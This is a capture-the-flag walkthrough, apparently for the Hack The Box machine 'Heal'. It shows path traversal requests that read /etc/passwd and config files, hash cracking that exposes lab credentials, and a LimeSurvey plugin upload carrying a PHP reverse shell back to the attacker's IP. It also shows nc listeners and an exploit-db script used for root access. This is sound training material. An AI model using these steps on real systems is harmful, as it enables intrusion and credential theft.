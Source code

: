 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](images/media/image1.png)

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](images/media/image2.png)

4.  Add **api.heal.htb** to **/etc/hosts** file

![](images/media/image3.png)

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](images/media/image4.png)

![](images/media/image5.png)

6.  Add to **take-survey.heal.htb** to **/etc/hosts** file

7.  Open the hidden page

- Username **ralph** found

![](images/media/image6.png)

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](images/media/image7.png)

**Opened**

![](images/media/image8.png)

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](images/media/image9.png)

- Result: 1 time forwarded. Send to Repeater

![](images/media/image10.png)

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](images/media/image11.png)

- Search for HOME to find Users

![](images/media/image12.png)

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1st line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](images/media/image13.png)

Download sqlite3 file

![](images/media/image14.png)

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](images/media/image15.png)

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](images/media/image16.png)

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](images/media/image17.png)

Website Verison, see below.

![](images/media/image18.png)

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](images/media/image19.png)

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](images/media/image20.png)

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](images/media/image21.png)

- Put this IP in the **php-rev.php** script

**Result:**

![](images/media/image22.png)

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](images/media/image23.png)

13. Upload zipname.zip + activate plugin

![](images/media/image24.png)

Click 3rd step and select the file **zipname.zip**

![](images/media/image25.png)

Push INSTALL

![](images/media/image26.png)

![](images/media/image27.png)

Activate it

![](images/media/image28.png)

Activated

![](images/media/image29.png)

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](images/media/image30.png)

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](images/media/image31.png)

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](images/media/image32.png)

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. 1st FLAG: Cat user.txt

![](images/media/image33.png)

**PRIVILEGE ESCALATION**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](images/media/image34.png)

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](images/media/image35.png)

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](images/media/image36.png)

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](images/media/image37.png)

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](images/media/image38.png)

8.  Connection established. Found Root.txt

![](images/media/image39.png)
